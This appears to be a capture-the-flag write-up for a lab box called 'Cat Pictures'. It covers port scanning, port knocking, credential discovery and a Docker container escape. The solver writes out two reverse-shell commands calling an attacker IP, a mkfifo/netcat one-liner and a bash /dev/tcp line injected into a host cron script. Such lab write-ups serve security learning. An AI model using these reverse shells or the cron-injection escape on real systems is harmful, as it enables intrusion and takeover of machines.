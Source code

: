 # Cat Pictures

### Flags, flags, flags!
Initial nmap scan shows port 22, 4420 and 8080 open, 21 and 2375 filtered: 

    PORT     STATE    SERVICE      VERSION
    21/tcp   filtered ftp
    22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
    |   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
    |_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
    2375/tcp filtered docker
    4420/tcp open     nvm-express?
    | fingerprint-strings: 
    |   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
    |     INTERNAL SHELL SERVICE
    |     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
    |     ctrl-c
    |     Please enter password:
    |     Invalid password...
    |     Connection Closed
    |   NULL, RPCCheck: 
    |     INTERNAL SHELL SERVICE
    |     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
    |     ctrl-c
    |_    Please enter password:
    8080/tcp open     http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
    | http-open-proxy: Potentially OPEN proxy.
    |_Methods supported:CONNECTION
    |_http-title: Cat Pictures - Index page
    |_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
    
![image](https://github.com/user-attachments/assets/871acec5-e4e3-41b9-8ff4-012394d53c0b)<br />
Port 4420 seems to serve an internal shell service that I can only use if I prompt the right password. 
<br />
Let's check out the webserver. Enumerating it I found this forum: <br />
![image](https://github.com/user-attachments/assets/6aea59eb-04b7-4db6-b2c5-51e3b1e4f893)<br />
This is a huge hint. What I need to do is a **port knocking** attack. What is port knocking?<br />

Port knocking is an authentication technique used by network administrators. It consists of a specified sequence of closed port connection attempts to specific IP addresses called a knock sequence. The techniques uses a daemon that monitors a firewall’s log files looking for the correct connection request sequence.<br />

The hint suggests me that I probably need to "knock" on ports 1111,2222,3333 and 4444 sequentially. To knock on ports, I'm going to use the `knock` command(sudo apt-get install knockd). Look what happens: <br />
![image](https://github.com/user-attachments/assets/8839c287-05d2-4fc2-a7dc-7061e358d030)<br />
On the left terminal, the first nmap shows that the ftp port is filtered (blocked by a firewall). However after trying to knock on the ports on the right terminal, the next nmap shows port 21 open! Our IP address is authenticated to access the FTP server.<br />
The FTP server is accessible with anonymous login, and contains a file called `note.txt` with the following content: <br />
![image](https://github.com/user-attachments/assets/d9defc21-ae52-4fb5-8f11-c4ad4119dfcf)<br />
So I used the password `sardinethecat` to log into the internal shell service on port 4420. This shell is very minimal, and can't even run the `cd` command. So I spawned a reverse shell on port 4444 using the command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.85.53 4444 >/tmp/f`.
Inside `/home/catlover/` directory there's a binary called `runme`:<br />
![image](https://github.com/user-attachments/assets/8cfe0505-774f-4aa2-90ab-6415dba9a4d0)<br />
I need to find the right password. For that, there are a couple of ways. The most tedious one is to run `cat /home/catlover/runme` and find the password trapped inside garbage(the `strings` command is not available in the machine):<br />
![image](https://github.com/user-attachments/assets/cb21c4b0-107e-4dac-ac53-a8acaadfe31f)<br />
The other way (the way I used) is to transfer the binary on my machine using netcat, and then quickly analyzing it using IDA: <br />
![image](https://github.com/user-attachments/assets/9185742a-b623-4e8d-84cc-94183dfe8c26)<br />
As you can see, it's much more evident. <br />
After prompting the password `rebecca`, after a while a private ssh key is created inside catlover's home directory: <br />
![image](https://github.com/user-attachments/assets/dfa96664-0989-4852-9984-ea1365fd8c03)<br />
What I can do now is copy the private key in my machine, change it's permission with `chmod 600 id_rsa_catlover` and login with `ssh catlover@target_IP -i id_rsa_catlover`. This got me the first flag. <br />
After logging in with ssh, the first thing I notice is that I'm root. But not THE root. I'm inside a docker container(since there's a `.dockerenv` file inside `/`) and I need to find a way to escape. <br />
If I run the `mount` command this is a part of the output: <br />
![image](https://github.com/user-attachments/assets/74bc4620-2618-4013-a5fe-fffe7acccb1a)<br />
Seeing `/dev/xvda1` is suspicious and might be a shared resource with the host machine. <br />
Among other paths, it is also mounted in `/opt/clean/` in which there's a `clean.sh` file that might be a cronjob. <br />
Viewing the contents this looks like it is removing the contents of the /tmp/ directory. I placed some files in the directory and waited. After a short while the files had been removed from the directory.<br />
So to spawn a reverse shell on my machine, I run `echo "bash -i >& /dev/tcp/10.11.85.53/6666 0>&1" >> clean.sh`, and then wait for the connection: <br />
![image](https://github.com/user-attachments/assets/f56dc8cb-e3fc-443e-b21d-988bcc48ff13)<br />
